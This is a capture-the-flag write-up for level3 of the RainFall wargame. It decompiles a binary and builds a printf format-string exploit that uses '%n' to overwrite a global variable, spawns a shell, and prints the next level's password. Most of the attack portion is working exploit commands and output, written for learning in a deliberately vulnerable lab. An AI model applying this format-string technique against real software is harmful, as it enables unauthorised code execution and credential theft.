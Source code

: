 get the binary on host
* `scp -P 4242 level3@192.168.56.107:./level2 ./binary/level3`

decompile using ghidra

When we disasemble the main function, we can see the main call a v()function 

 0x08048520 <+6>:     call   0x80484a4 <v>

 in c does this:

```
unsigned int m;

void v(void)
{
  char buffer[520];
  
  fgets(buffer,520,stdin);
  printf("%s", buffer);
  if (m == 0x40)    --> 64 in decimal
  {
    fwrite("Wait what?!\n",1,stdout);
    system("/bin/sh");
  }
  return;
}

 void main(void)
{
  v();
  return;
}

```
The program is simple, it's calling function v() wich check if the value of m, a global unitialize variable, is equal to 64.
If it is, then it launch a shell so we can get our .pass.

fgets is protected against buffer overflow, but there is an exploit called string attack we can use on printf.
It uses the %n modifier wich writes the number of bytes into a pointer.
The goal is to use the modifier '%n' to change the m value at the right place on the stack.

first we need to get the address of m, quick look on ghidra, it is: 0804988c

Now we have to display the memory address in the stack until we reach that address:

level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08 %x %x %x %x %x'" > /tmp/file

level3@RainFall:~$ cat /tmp/file | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c 20782520

So we can count 3 addresses before m, and 4 including it. Now we can build our exploit:

python -c "print '\x8c\x98\x04\x08' + 'z'* 60 + '%4\$n'" > /tmp/file

we write 60 bytes, the '4\$' inf the '%n' modifier is here to tell the fonction to skip the 3 addresses so we are a the good position in the stack.\
60 bytes + \x8c\x98\x04\x08 wich is 4 bytes makes 64 written to the m variable address (\x8c\x98\x04\x08)\

```
level3@RainFall:~$ cat /tmp/file - | ./level3
�zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
